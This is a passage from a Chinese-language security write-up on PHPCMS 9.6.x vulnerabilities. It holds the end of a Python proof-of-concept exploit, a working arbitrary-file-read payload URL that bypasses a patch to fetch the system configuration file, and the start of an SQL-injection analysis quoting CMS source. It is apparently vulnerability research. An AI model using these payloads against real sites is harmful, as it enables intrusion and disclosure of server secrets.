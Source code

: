 		data = {'userid_flash':userid_flash}
		req1 = requests.post(url=step1,data=data)

		for i in req1.cookies:
			if i.name[-9:] == '_att_json':
				a_k = i.value
		if a_k == '':
			print('sys_paylaod Bad')

		url = '{}index.php?m=content&c=down&a_k={}'.format(host,a_k)
		print(url)

	if __name__ == '__main__':
		poc('http://127.0.0.1/phpcmsv9.6.1/')

### phpcms9.6.2

#### 任意文件读取

这个属于补丁绕过，可以看到补丁又加了一次正则但是有被绕过的可能。
![](https://i.imgur.com/ly7Kc2H.png)

trim函数也不是安全的，%81-%99间的字符是不会被trim去掉的且在windows中还能正常访问到相应的文件。给出payload

	http://127.0.0.1/code/phpcms_v9.6.2_UTF8/index.php?m=attachment&c=attachments&a=swfupload_json&src=a%26i=1%26m=1%26catid=1%26f=./caches/configs/system.ph%*25*3ep%2581%26modelid=1%26d=1&aid=1

#### sqli

在member模块，会员前台管理中心接口的继承父类foreground:

	class index extends foreground {

	private $times_db;
	
	function __construct() {
		parent::__construct();
		$this->http_user_agent = $_SERVER['HTTP_USER_AGENT'];
	}
跟进foreground /phpcms/modules/member/classes/foreground.class.php 19-33


	public $db, $memberinfo;
	private $_member_modelinfo;
	
	public function __construct() {
		self::check_ip();
		$this->db = pc_base::load_model('member_model');
		//ajax验证信息不需要登录
		if(substr(ROUTE_A, 0, 7) != 'public_') {
			self::check_member();
		}
	}
	
	/**
	 * 判断用户是否已经登陆
	 */
	final public function check_member() {
		$phpcms_auth = param::get_cookie('auth');
		if(ROUTE_M =='member' && ROUTE_C =='index' && in_array(ROUTE_A, array('login', 'register', 'mini','send_newmail'))) {
			if ($phpcms_auth && ROUTE_A != 'mini') {
				showmessage(L('login_success', '', 'member'), 'index.php?m=member&c=index');
			} else {
				return true;
			}
		} else {
			//判断是否存在auth cookie
			if ($phpcms_auth) {